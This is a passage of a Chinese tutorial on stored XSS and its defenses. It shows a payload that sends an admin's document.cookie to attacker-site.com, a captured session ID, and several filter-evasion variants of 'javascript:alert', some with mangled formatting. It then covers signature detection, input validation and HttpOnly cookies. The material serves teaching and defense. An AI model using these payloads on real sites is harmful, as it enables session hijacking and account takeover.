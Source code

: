 #### 举例

​        首先，攻击者以一个普通用户登录进来，然后在输入框中提交以下数据：

```php
<a href=# onclick=\"document.location=\'http://attacker-site.com/xss.php?c=\'+escape\(document.cookie\)\;\">bangerlee</a>
```

​        攻击者提交了条带<a>标签的数据，该条数据将保存在数据库中，而当 admin 用户登入时，包含  “bangerlee” 的用户列表将显示，如果 admin 用户点击 “bangerlee” 时，在 “attacker-site.com”  所在的服务器上，攻击者就可以窃取到 admin 的session-id：

```php
xss.php?c=PHPSESSID%3Dvmcsjsgear6gsogpu7o2imr9f3
```

​        有了该session-id，攻击者在会话有效期内即可获得 admin 用户的权限，并且由于攻击数据已添加入数据库，只要攻击数据未被删除，那么攻击还有可能生效，是持久性的。

​        当然，不是只有持久型xss攻击才能窃取session ID、用户的cookie信息，用非持久型xss也可以，只要引导用户点击某链接，将 document.cookie 信息传到指定服务器即可，以上仅作为说明持久型xss攻击的举例。

## 防范

#### 基于特征的防御

​        XSS漏洞和著名的SQL注入漏洞一样，都是利用了Web页面的编写不完善，所以每一个漏洞所利用和针对的弱点都不尽相同。这就给XSS漏洞防御带来了困难：不可能以单一特征来概括所有XSS攻击。

​        传统XSS防御多采用特征匹配方式，在所有提交的信息中都进行匹配检查。对于这种类型的XSS攻击，采用的模式匹配方法一般会需要对“javascript”这个关键字进行检索，一旦发现提交信息中包含“javascript”，就认定为XSS攻击。这种检测方法的缺陷显而易见：骇客可以通过插入字符或完全编码的方式躲避检测：

1. 在javascript中加入多个tab键，得到 
    `< IMG SRC="jav ascript:alert('XSS');" >;`
2. 在javascript中加入(空格)字符，得到 
    `< IMG SRC="javascri pt:alert('XSS');" >;`
3. 在javascript中加入(回车)字符，得到

```
< IMG SRC="jav  ascript:alert('XSS');" >;` 
 \4. 在javascript中的每个字符间加入回车换行符，得到 
 `< IMG SRC="javascrip\r  \nt:alert('XSS');" >` 
 \5. 对”javascript:alert(‘XSS’)”采用完全编码，得到 
 `< IMGSRC=javascrip?74:alert('XSS') >
```

​        上述方法都可以很容易的躲避基于特征的检测。而除了会有大量的漏报外，基于特征的 
 还存在大量的误报可能：在上面的例子中，对上述某网站这样一个地址，由于包含了关键字“javascript”，也将会触发报警。

#### 基于代码修改的防御

​        和SQL注入防御一样，XSS攻击也是利用了Web页面的编写疏忽，所以还有一种方法就是从Web应用开发的角度来避免：

1. 对所有用户提交内容进行可靠的输入验证，包括对URL、查询关键字、HTTP头、POST数据等，仅接受指定长度范围内、采用适当格式、采用所预期的字符的内容提交，对其他的一律过滤。
2. 实现Session标记(session tokens)、CAPTCHA系统或者HTTP引用头检查，以防功能被第三方网站所执行。
3. 确认接收的的内容被妥善的规范化，仅包含最小的、安全的Tag(没有javascript)，去掉任何对远程内容的引用(尤其是样式表和javascript)，使用HTTP only的cookie。

​        当然，如上操作将会降低Web业务系统的可用性，用户仅能输入少量的制定字符，人与系统间的交互被降到极致，仅适用于信息发布型站点。并且考虑到很少有Web编码人员受过正规的安全培训，很难做到完全避免页面中的XSS漏洞。
